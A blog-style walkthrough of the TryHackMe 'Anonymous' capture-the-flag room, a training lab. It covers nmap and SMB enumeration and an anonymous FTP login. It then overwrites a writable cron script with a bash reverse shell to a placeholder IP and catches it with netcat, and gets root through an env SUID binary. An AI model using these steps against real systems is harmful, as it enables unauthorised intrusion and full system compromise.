 ```yaml
---
title: Anonymous - TryHackMe
date: "2020/08/13"
tags: ["pentesting", "writeups"]
draft: false
summary: A walkthrough for the Anonymous room on TryHackMe
---
```


<TOCInline toc={props.toc} asDisclosure toHeading={3} />

Hello there! Today I am going to walk you through the Anonymous machine on [TryHackMe](https://tryhackme.com/room/anonymous).

Let’s first (as always) export the IP to a global variable, for easier reference later on. So when ever you see \$IP I am talking about the machines IP.

```bash
export IP={Machine IP}
```

## Enumeration

Let’s get started with an nmap scan:

```plain
nmap -T4 -A -p- $IP
```

Those are the results:

```plain
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 13:27 EDT
Nmap scan report for 10.10.115.205
Host is up (0.096s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts [NSE: writeable]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.25.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=8/9%OT=21%CT=1%CU=35520%PV=Y%DS=2%DC=T%G=Y%TM=5F303224
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=F9%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11N
OS:W6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R
OS:=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Network Distance: 2 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -2s, deviation: 1s, median: -2s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-08-09T17:27:57+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-08-09T17:27:57
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   41.06 ms  10.9.0.1
2   114.16 ms 10.10.115.205

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.36 seconds
```

We can already see that there are three interesting services running. SMB, FTP and SSH. I chose to have a look at SMB first and then work my way up.<br/>In the scan results we can see that guest login is allowed, so let’s make use of that.

First I used SMBMap to see what share we could access:

```plain
root@hades:~# smbmap $IP
[+] Guest session       IP: 10.10.115.205:445   Name: 10.10.115.205
        Disk                                                    Permissions Comment
    ----                                                    ----------- -------
    print$                                              NO ACCESS   Printer Drivers
    pics                                                READ ONLY   My SMB Share Directory for Pics
    IPC$                                                NO ACCESS   IPC Service (anonymous server (Samba, Ubuntu))
```

The “pics” share seems interesting, but apparently this was a rabbit hole, there were literally just a few pictures on there.

So let’s move on to the next port. It is an FTP server with anonymous login enabled (always look closely at you scan results). I just logged in with the command line, like this:

```plain
root@hades:~/ctf/thm/anonymous# ftp 10.10.115.205 21
Connected to 10.10.115.205.
220 NamelessOne's FTP Server!
Name (10.10.115.205:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

As the password I entered nothing and just pressed enter. We can move around the FTP server just like on a Linux machine and after looking around for a bit, I found three files:

```plain
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04 19:26 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04 19:24 clean.sh
-rw-rw-r--    1 1000     1000         1763 Aug 09 17:45 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12 03:50 to_do.txt
```

You can easily download them with “get” and then the file name (get [‘File name’]).

## Gaining Access

Only the bash script really is interesting for us. The todo just says to remove the anonymous login and the log is being generated by the clean.sh script. The script itself deletes all files from the /tmp directory, when run. Potentially this is a cron job?<br/>A cron job is something you can set up on your Linux machine to do tasks e.g. daily, monthly etc.

So if we can override the script we can let it do whatever we want (Spoiler: we can).

Just create a shell scipt and insert some kind of shell. I used this simple reverse shell, just insert you own IP:

```bash
#!/bin/bash

bash -i >& /dev/tcp/[Your tun0 IP]/8080 0>&1
```

And upload it with “put” and then the file name of the local file.

Then set up a netcat listener on you machine:

```bash
nc -lnvp 8080
```

Now you just need to wait a few seconds and you should be able to see a shell pop up, where you set up the listener.

### User Flag

You can now just cat out the user flag, which is located at /home/anonymous/user.txt .

## Privilege Escalation

I followed my routine and downloaded LinPeas on the target machine.<br/>It found an “env” SUID, which if you look it up on [GTFOBins](https://gtfobins.github.io/gtfobins/env/) is easily exploitable. Just run this simple command:

```bash
env /bin/sh -p
```

And there you go, you have root.

### Root Flag

And again you can just cat out the root flag, which is located at /root/root.txt this time.

## The End

And there you have it! I hope you had fun, I know I did 🦄
